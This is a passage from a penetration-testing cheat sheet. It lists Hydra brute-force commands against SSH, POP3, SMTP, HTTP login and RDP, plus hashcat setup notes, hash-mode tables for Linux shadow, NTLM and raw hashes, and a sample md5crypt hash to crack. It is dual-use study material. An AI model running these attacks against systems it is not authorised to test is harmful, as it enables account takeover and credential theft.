         -   Hydra SSH Against Known username on port 22
            `hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt`

        -   Hydra POP3 Brute Force  
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
          

-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)

    -   Hashcat
   Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
and
apt-get install pocl-opencl-icd

   Cracking Linux Hashes - /etc/shadow file
   ```
   500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
   3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
   7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
   1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
   ```
   Cracking Windows Hashes
   ```
   3000 | LM                                               | Operating-Systems
   1000 | NTLM                                             | Operating-Systems
   ```
   Cracking Common Application Hashes
   ```
    900 | MD4                                              | Raw Hash
      0 | MD5                                              | Raw Hash
   5100 | Half MD5                                         | Raw Hash
    100 | SHA1                                             | Raw Hash
  10800 | SHA-384                                          | Raw Hash
   1400 | SHA-256                                          | Raw Hash
   1700 | SHA-512                                          | Raw Hash
   ```
   
   Create a .hash file with all the hashes you want to crack
   puthasheshere.hash:
   ```
   $1$O3JMY.Tw$AdLnLjQ/5jXF9.MTp3gHv/
   ```
   